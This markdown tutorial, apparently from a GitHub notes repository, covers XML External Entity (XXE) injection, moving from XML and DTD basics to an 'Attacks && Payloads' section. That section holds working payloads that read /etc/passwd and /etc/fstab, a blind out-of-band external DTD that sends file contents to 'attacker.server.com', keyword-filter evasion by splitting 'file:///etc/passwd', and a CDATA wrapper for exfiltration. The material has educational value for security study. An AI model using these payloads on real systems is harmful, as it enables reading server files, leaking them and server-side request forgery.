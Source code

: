 External XML Entities
=====================

## Overview

### XML

Extensible Markup Language is a way of structuring data similar to JSON which has overtaken XML in popularity and largely replaced it in general.

#### XML Structure && Syntax

```xml
<?xml version="1.0"?>
<Person>
	<Name>John Smith</Name>
	<Age>20</Age>
</Person>

```

+ Tags are case sensitive
+ "",'',<,> are illegal characters in XML due to the parser not knowing how to handel them

### Entities && The DTD

Entities operate like variables within the XML document where, once defined, they can be used anywhere throughout the document. XML entities live within a specific part of the XML document known as the DTD.


#### Document Type Definition (DTD)

```xml
<?xml version="1.0"?>
<!DOCTYPE Person [
	<!ENTITY name "John">
]>
<Person>
	<Name>&name;</Name>
	<Age>20</Age>
</Person>
```

##### General Entities

```xml
<!ENTITY generalEntity "arbitrary">

<Usage>&generalEntity;</Usage>
```

##### Parameter Entities

```xml
<!ENTITY % outer "<!ENTITY inner 'parameter'>">

```

+ Only allowed inside the DTD
+ More flexiable and can allow the creation of an entity which contains another entity

##### Predefined

```xml
<specialChars>&#x3C;</specialChars>
```

+ Collections of special characters that might break the document normally

## XXE Types

### Inband

+ XML document is parsed 
+ The XML parser reads the document
+ The output of the parser is rendered/output in a response

### Error Based

+ No output
+ A kind of blind XXE injection

### Out of Band (OOB)

+ Entirely blind
+ No output
+ This requires an attack/observation server 
+ The server receives requests made from an entity in the injected payload
+ If the request comes back then the origin site is vulnerable to OOB XXE
+ This also leads to SSRF (Server Side Request Forgery)


## Attacks && Payloads

### Read System Files

```xml
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "/etc/passwd">
]>
<out>&payloadEntity;</out>
```
+ Here the SYSTEM keyword retrieves arbitrary resources from a URI `/etc/passwd` to insert into the XML document
+ In this way we can achieve arbitrary read 

#### Include Entities Remotely

```xml
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "https://callback.free.beeceptor.com/test">
]>
<out>&payloadEntity;</out>
```

### External DTD Payloads

+ Because DTDs can be passed as a URI in a `SYSTEM` call they can be loaded externally by the XML parser

```xml
<?xml version="1.0"?>
<!DOCTYPE DTD [
	<!ENTITY % parameter_entity "<!ENTITY secondary_entity 'PwnFunction'>">
	%parameter_entity%
]>

<payload>&secondary_entity;</payload>
```

### Blind XXE Payloads Using External DTDs

#### External DTD (external_payload.dtd)

```xml
<!ENTITY % grabPasswd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.server.com/?%grabPasswd;'>">
	%wrapper;
```

+ This will cause the parser to read the contents of `passwd` and store it in the grabPasswd parameter entity
+ This allows the usage of the parameter `grabPasswd` within the DTD
+ Another parameter entity `wrapper` is then created which points to the general entity `send` 
+ When the document is parsed the wrapper entity will spawn the `send` entity as a general entity legally via the external DTD
+ This will then send the contents of `grabPasswd` to the attack server 

#### XXE Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE payload SYSTEM "http://attack.server.com/external_payload.dtd">
<payload>&send;</payload>
```

### Filter Evasion

#### External DTD 

```xml
<!ENTITY % p1 "fi">
<!ENTITY % p2 "le:///etc/pa">
<!ENTITY % p3 "sswd">
<!ENTITY % combined "<!ENTITY pwnFunc SYSTEM '%p1;%p2;%p3;'>">
```

#### Main XML

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE xxe [
    <!ELEMENT xxe ANY>
    <!ENTITY % a SYSTEM "http://termbin.com/mo28">
    %a;
    %all;
]>
<return>&pwnFunc;</return>
```
+ This will attempt to bypass filters for keywords such as `file` and `passwd`
+ Extra layers can be added until the filter stops detecting trigger words

### Exfiltration && Pitfalls

+ Since some system files that an attacker may attempt to exfiltrate contain xml syntactic characters like `<,>` a work around must be implemented in order to read these files


#### CDATA

+ The character data syntax, `<![CDATA[ <text> ]]` is a way of telling the XML parser to ignore syntactic characters that may arise within this tag
+ Consider its usage in a external DTD payload bellow

```xml
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
```

+ This leads to the creation of a wrapper with the three parameters desired

